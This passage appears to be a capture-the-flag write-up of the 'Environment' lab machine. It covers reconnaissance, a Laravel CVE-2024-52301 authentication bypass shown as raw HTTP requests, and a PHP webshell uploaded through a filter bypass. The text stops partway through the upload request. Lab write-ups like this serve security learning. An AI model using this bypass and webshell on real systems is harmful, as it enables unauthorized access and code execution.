










## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Directory Brute Force](#Directory-Brute-Force)
- [Laravel Framework](#Laravel-Framework)
    - [CVE-2024-52301: Laravel Framework Authentication Bypass through Environment Settings Manipulation](#CVE-2024-52301-Laravel-Framework-Authentication-Bypass-through-Environment-Settings-Manipulation)
- [Foothold](#Foothold)
    - [Upload Filter Bypass](#Upload-Filter-Bypass)
    - [Reverse Shell](#Reverse-Shell)
- [Enumeration (www-data)](#Enumeration-www-data)
- [user.txt](#usertxt)
- [Privilege Escalation to hish](#Privilege-Escalation-to-hish)
- [Enumeration (hish)](#Enumeration-hish)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Summary

The box starts with a `Laravel Framework Authentication Bypass` aka `CVE-2024-52301` on a `login form` to a `Marketing Dashboard` by using `Environment Settings Manipulation`. On the `profile tab` of the `dashboard` a `upload filter` needs to be `bypassed` in order to `upload` a `webshell` and to achieve `Remote Code Execution (RCE)` as `www-data`. This grants `foothold` on the box. Within the session of `www-data` a quick `enumeration` shows that the same `user` on the `dashboard` is also a user on the box and his `home directory` as well as the `user.txt` a `backup directory` which contains a `keyvault.gpg` file and the related `.gnupg` folder are readable by the `low-privileged` user. After `exfiltrating` those files the content of the `keyvault.gpg` can be accessed, which contains the `password` for `hish` on the box. After the `privilege escalation` to `hish` a quick look at the `sudo permission` shows that he is able to `reset` the `environment variables` while keeping the  `ENV_BASH` variable when executing a script called `systeminfo` within `/usr/bin/`. This allows to use a `maliciously crafted script` to be executed before `systeminfo` and allows `code execution` in the context of `sudo` which ultimately results in `access` as `root`.

## Reconnaissance

### Port Scanning

The initial `port scan` using `Nmap` not only revealed port `22/TCP` and port `80/TCP`, it also showed a `redirect` to `http://environment.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.107.56                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-04 10:26 CEST
Nmap scan report for 10.129.107.56
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts 
127.0.0.1       localhost
127.0.1.1       kali
10.129.107.56   environment.htb
```

### Enumeration of Port 80/TCP

The website running on port `80/TCP` showed nothing special in particular. However `WhatWeb` detected the use of the `Laravel Framework`.

- [http://environment.htb/](http://environment.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.107.56/
http://10.129.107.56/ [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.22.1], IP[10.129.107.56], RedirectLocation[http://environment.htb], Title[301 Moved Permanently], nginx[1.22.1]
http://environment.htb [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.22.1], HttpOnly[laravel_session], IP[10.129.107.56], Laravel, Script, Title[Save the Environment | environment.htb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], nginx[1.22.1]
```


### Directory Brute Force

With this information we went for `Directory Brute Force` in order to find available `directories`. In this case the `/login` was the most promising one.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://environment.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_environment.htb/__25-05-04_10-32-45.txt

Target: http://environment.htb/

[10:32:45] Starting: 
[10:32:48] 403 -  555B  - /%2e%2e;/test                                     
[10:33:00] 403 -  555B  - /admin/.config                                    
[10:33:12] 403 -  555B  - /admpar/.ftppass                                  
[10:33:12] 403 -  555B  - /admrev/.ftppass
[10:33:19] 403 -  555B  - /bitrix/.settings                                 
[10:33:19] 403 -  555B  - /bitrix/.settings.bak                             
[10:33:19] 403 -  555B  - /bitrix/.settings.php.bak
[10:33:21] 301 -  169B  - /build  ->  http://environment.htb/build/         
[10:33:21] 403 -  555B  - /build/
[10:33:37] 403 -  555B  - /ext/.deps                                        
[10:33:37] 200 -    0B  - /favicon.ico                                      
[10:33:45] 200 -    2KB - /index.php/login/                                 
[10:33:49] 403 -  555B  - /lib/flex/uploader/.flexProperties                
[10:33:49] 403 -  555B  - /lib/flex/uploader/.project
[10:33:49] 403 -  555B  - /lib/flex/uploader/.actionScriptProperties
[10:33:49] 403 -  555B  - /lib/flex/varien/.flexLibProperties               
[10:33:49] 403 -  555B  - /lib/flex/uploader/.settings
[10:33:49] 403 -  555B  - /lib/flex/varien/.actionScriptProperties
[10:33:49] 403 -  555B  - /lib/flex/varien/.project                         
[10:33:49] 403 -  555B  - /lib/flex/varien/.settings                        
[10:33:51] 200 -    2KB - /login                                            
[10:33:51] 200 -    2KB - /login/                                           
[10:33:52] 302 -  358B  - /logout  ->  http://environment.htb/login         
[10:33:52] 302 -  358B  - /logout/  ->  http://environment.htb/login        
[10:33:53] 403 -  555B  - /mailer/.env                                      
[10:34:11] 403 -  555B  - /resources/.arch-internal-preview.css             
[10:34:11] 403 -  555B  - /resources/sass/.sass-cache/
[10:34:12] 200 -   24B  - /robots.txt                                       
[10:34:19] 403 -  555B  - /storage/                                         
[10:34:19] 301 -  169B  - /storage  ->  http://environment.htb/storage/
[10:34:24] 403 -  555B  - /twitter/.env                                     
[10:34:28] 403 -  555B  - /vendor/                                          
[10:34:29] 405 -  245KB - /upload/                                          
[10:34:29] 405 -  245KB - /upload                                           
                                                                             
Task Completed
```

## Laravel Framework

### CVE-2024-52301: Laravel Framework Authentication Bypass through Environment Settings Manipulation

As expected we hit a `login form` on `/login` to some sort of `Marketing Portal`.

- [http://environment.htb/login](http://environment.htb/login)



Some research later we found a potential `Authentication Bypass` in the `Laravel Framework` aka `CVE-2024-52301` and a related `Proof of Concept (PoC)` exploit.

- [https://dev.to/saanchitapaul/high-severity-laravel-vulnerability-cve-2024-52301-awareness-and-action-required-15po](https://dev.to/saanchitapaul/high-severity-laravel-vulnerability-cve-2024-52301-awareness-and-action-required-15po)
- [https://github.com/martinhaunschmid/CVE-2024-52301-Research](https://github.com/martinhaunschmid/CVE-2024-52301-Research)

We tested for various `fields` on order to `bypass authentication` using the `?--env=` variable and `GitL` a hit with a random value on `$remember` which resulted in `debugging output` describing the stage of `preprod`.

```shell
POST /login HTTP/1.1
Host: environment.htb
Content-Length: 107
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6ImNqelg0MXQvbGpYL3FQU3lzOVFyTHc9PSIsInZhbHVlIjoibnN2WGpFY1lab1dBZmdRNmkvWWVpdTh4ZkM2VDR3cWZsODcvN1ozM1VDNVlnaUpxQWZ1bG94NHpjMk93YXRXN2Z5K3VjblZ2bVZnMmVtTzlZM1ovb1RRTGh5UklVUndwaU1PT20zTHQ0VkVoYUtVbkdMMFkxU2REa0p2Z3dOSTIiLCJtYWMiOiJiNTNhNjFlY2M0NmFhYzczZmRmMDVjNjAwNzhlNGFlOTFkZmFhYTRjODdjN2U1MjQyYWExMGYwMzE2NWNkNjc5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjZWSWJYb3VEU0lDMEg0ZHc2R29SeXc9PSIsInZhbHVlIjoidVozOGRxTDlrNWt4QXVaSlZjU1FIVkpCR2hsY0thOWxSSlNyS2VkSlJGM2NXMmNWYlNDVlBJdDM5N1VTZWwxOXBCS0xDNkpib0kxTC9ucWFqcFYwK1pXMXNBKzR0SmRLK0JNSmdwWDNaNFM0NlZMYXoyZEJRNzdUVzR6ZW9oMCsiLCJtYWMiOiIyNDVmMWRhMjgxOTdkNmFhYmI1MjRlNzkwYzE4MzNlNGZjOTg2MWRjYjk5MDg0MTI0ZjljM2FkM2YwNjI1ODQ1IiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=NpmQabGpOoIxN8qZadlBUPAejP5EkltvAveKKb0X&email=foobar%40foobar.local&password=foobar&remember=foobar
```

```shell
HTTP/1.1 500 Internal Server Error
Server: nginx/1.22.1
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Cache-Control: no-cache, private
date: Sun, 04 May 2025 13:23:35 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IllzYlBiektzcGNCU2dFT3F2bUc0QkE9PSIsInZhbHVlIjoiU1JQWkQyWDV3Wm9mdGJST0Z1Q1Z0U09YbVA5emgzaDdmNUlMMlJHTmxNOHFDZUhyRTBvZm5FODlpZEh4WFF5dVJQbU5FeU5mbWhDNmtjVXNTYzFBbHozbXRDZHNCck5waG5wdGQ1eEpjODdtaVNML3BIZ3FONEZhVlZsbEgxbHIiLCJtYWMiOiI4MjViNzJjOWI0YWI1NDI5YWY2YjgxNWNkODE2NzVmZDc1NmQxYjhhYWJiZTk1MTEzMDgxYjc0YmZlOTg5OTI5IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 15:23:35 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6InQvQTRHVnhxaXpZTkJzcmx1QWg4MEE9PSIsInZhbHVlIjoiV25BTFliU0ZxS0ZPcEVUQjE5SEx3WEY5VzA5WTRKZk8vY0kxSWp4aFZRSEhBOU4vM2NRQWZPZVRVdmJ6QTltY2NPZmd2Znh1c05zQzRmNDExYmMzdVJlRUx4L2hQOXo4Y0dhdzNPTHYxRWdKRVp0akM4VDZDVnBSdy8yOFhXT1ciLCJtYWMiOiI3NjRiNzkyYWVhZTIyZDAxYTU4NjBkZTIyMTBmZTAyZjgzY2EzNDA4ZmJiMjNhNzMyZjFiYmExZmJhNTlmOWQxIiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 15:23:35 GMT; Max-Age=7200; path=/; httponly; samesite=lax
Content-Length: 309807

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8" />
    <meta
        name="viewport"
        content="width=device-width, initial-scale=1"
    />

    <title>Laravel</title>
<--- CUT FOR BREVITY --->
   if(App::environment() == &quot;preprod&quot;) { //QOL: login directly as me in dev/local/preprod envs
<--- CUT FOR BREVITY --->
```



With this information put into our `payload` we were able to `bypass authentication` and `login` directly to the `dashboard`.

```console
?--env=preprod
```

```shell
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 106
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IjFNcTI4bTRKTUVqMWJBMmRwcVFGdGc9PSIsInZhbHVlIjoiUnUyVHl1SnZOd2JpQ0tWRzJTaEJ2aUU5OUZWRm5qMWJDMVpuaVRobjFZYjQ0UmIvV2EvUFd4ZElyR0hVSjF1amRkRjhzYU5rUDlzb3g4dzgwZ2NYTjZHY2owQ0p1b1ZFTzBOekZPTG1NSDRRbmU3VUd0OEx4VHAxSzJIcTlKT20iLCJtYWMiOiJiMWQ0NDI0YzM4MjEzMDFjOGIzMDUyN2RmY2RjNzdjMjcxMjM4Y2E1ZDkxZDcwMmI3NTg4ODYxYzg2MmE0M2MyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImlwZG5UaVBQSnRzWVNMMHR5d0VtNmc9PSIsInZhbHVlIjoiMURDUG1BZHBFRjVENTNmSDdCS0swcFJ2aFFHeVhTeFJPQS9mVGppNlVRWFpuNVptQlFvMUN6UytRUk5FOXRRL1RNVWY2T2RrTTc0UjMwMXFvM0FXOTFrQ3ppejVXdXJwSDlEZGlNay9HU0RCbU50QmVOVEpDWUpSVFpMV1JGLzEiLCJtYWMiOiI3ZGYwZTUxYmQzZTAyNTI1ODNkNjY4NjhkZGRjOTBkYTAxYzk3YzM0MjdiYTExYjYyOTViZTQ1M2EyZmUyZWYwIiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=3sE4H6uyOrYbHEx1olAW8IlzelYf9CsG2OI8Frd9&email=foobar%40foobar.local&password=foobar&remember=False
```



```shell
GET /management/dashboard HTTP/1.1
Host: environment.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IjZWMVJtb3JsWFVOaDBibk4ybnQwRFE9PSIsInZhbHVlIjoiQjhlczd2TW14eU9YMnVWYWJ0UEFZc0RuWGhWQUhBWDR1d3NPR1J3cmZaOUczNnB4Ykt2Z0IvRWFFNWhyNzhDREJHdXlaL2NBOU1xUzkxS2ZoZlYxVnZPbDVxajlkbTYrUzh3VElWY1dMTTdmWGMxcHpob3FjQ21qRHpWSFdZOEUiLCJtYWMiOiJlNTEzY2RmZWE3NmUyNGYzZGE2YmNjNThjODY4MmNhNWJmNGJkYThhNGJmZTZlMDY5NzcxMTZiOTQ5NzU5NjgyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InBhSDl3UldwNmJ3SUtybGJyZE0xdGc9PSIsInZhbHVlIjoiRjMrZ0lBTVdnYjFmNkxPTVVGVmlpbXE4c3dYbTU1RmVlbHRtc0pPY0V5ckJ3TXhqcm9MNk1aRjdwT3pKSHN3NE95OE1EU2srN1VVMlpZdEJaSE5TdW83Zzd4OUdsVUdRYlVKTGZZVmx1b2tPd3pSMFVvemJ3bTlqUUxBZXBlaGkiLCJtYWMiOiJlNmZlNjhkNzk0YWNkMzI3ZDQ1MTRiM2M1ZWEzMzdlZDZhNjU2OTRlNTRlY2MzM2Y2ZTcyNGNkYTljNzU4NjhhIiwidGFnIjoiIn0%3D
Connection: keep-alive


```





## Foothold

### Upload Filter Bypass

In the navigation on the left we found `Profile` which allowed us to upload a new `profile picture` for `Hish`.



There was a `upload filter` in place which we `bypassed` by adding `GIF Magic Bytes`, changed the `Content-Type` to `image/gif` and renaming our `webshell` from `shell.php.jpg` to `shell.php.` with a `dot` at the end.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Environment/files]
└─$ cat shell.php.jpg 
GIF89a
<?php system($_GET['cmd']); ?>
```

```shell
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 360
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDBJuJf9TC23GKTvR
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
